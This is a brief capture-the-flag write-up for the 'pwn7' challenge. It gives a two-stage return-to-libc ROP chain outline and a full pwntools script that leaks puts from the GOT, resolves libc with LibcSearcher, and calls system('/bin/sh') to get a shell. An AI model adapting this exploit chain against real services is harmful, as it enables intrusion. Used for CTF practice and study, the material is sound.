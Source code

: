 

**First**:  puts(puts@got)  -> then jump to main() again

+ 'A' * (0xC+8)
+ pop_rdi_ret
+ puts@got
+ puts@plt
+ &main()

First output: the real addr of puts() in memory

**Second**:

+ 'A' * (0xC+8)
+ &ret
+ &pop_rdi_ret
+ &str_bin_sh
+ &system()

```python
from pwn import*
from LibcSearcher import LibcSearcher

context(arch='amd64',os='linux',log_level='debug')

# FIRST
elf = ELF("./pwn7")
#p=process('./pwn7')
r=remote('pwn.challenge.ctf.show',28105)

#gadgets
pop_rdi_ret=0x4006e3
ret=0x4004c6
#FIRST
payload='A'*(0xc+8)+p64(pop_rdi_ret)+p64(elf.got['puts'])
		+p64(elf.plt['puts'])+p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
puts_addr=u64(r.recv(6).ljust(8,'\x00')) #7f982ff459c0
print(hex(puts_addr))

libc=LibcSearcher("puts",puts_addr)
libcbase=puts_addr-libc.dump('puts')
system_addr=libcbase+libc.dump('system')
binsh_addr=libcbase+libc.dump('str_bin_sh')

#SECOND
#payload='A'*(0xc+8)+p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr)
payload='a'*(0xc+8)+p64(ret)+p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr)
r.sendline(payload)
r.interactive()

```
